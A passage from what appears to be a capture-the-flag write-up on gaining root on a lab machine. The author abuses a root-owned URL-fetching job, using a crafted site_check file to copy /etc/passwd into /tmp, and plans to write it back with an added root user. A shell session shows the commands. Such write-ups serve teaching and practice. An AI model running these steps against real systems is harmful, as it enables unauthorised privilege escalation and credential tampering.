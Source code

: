And we got a hit.

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

we see that the test.txt file is saved there by root, which means this works, and this gives us a chance to get root, basically we will attempt to overwrite the `passwd file` by adding a new user with root privileges inside.

so to do that we first copy the content of `/etc/passwd` file to our local machine, then we add new user with root privileges inside :

```bash
F30s@482cbf2305ae:~$ echo 'url = "file:///etc/passwd"' > site_check
echo 'url = "file:///etc/passwd"' > site_check
F30s@482cbf2305ae:~$ echo 'output = "/tmp/passwd"' >> site_check
echo 'output = "/tmp/passwd"' >> site_check
F30s@482cbf2305ae:~$ ls -al /tmp
ls -al /tmp
total 16
drwxrwxrwt 1 root  root  4096 Nov 20 14:06 .
drwxr-xr-x 1 root  root  4096 Jun 24 14:09 ..
prw-r--r-- 1 ayham ayham    0 Nov 20 13:15 f
-rw-r--r-- 1 root  root  1060 Nov 20 14:06 passwd
-rw-r--r-- 1 root  root    10 Nov 20 13:55 test.txt
```

This worked, we can see the `passwd` file saved to /tmp as root. Now we can modify it by adding a new user as root, then sening it back to the `/etc/passwd` position.

And we got a hit.
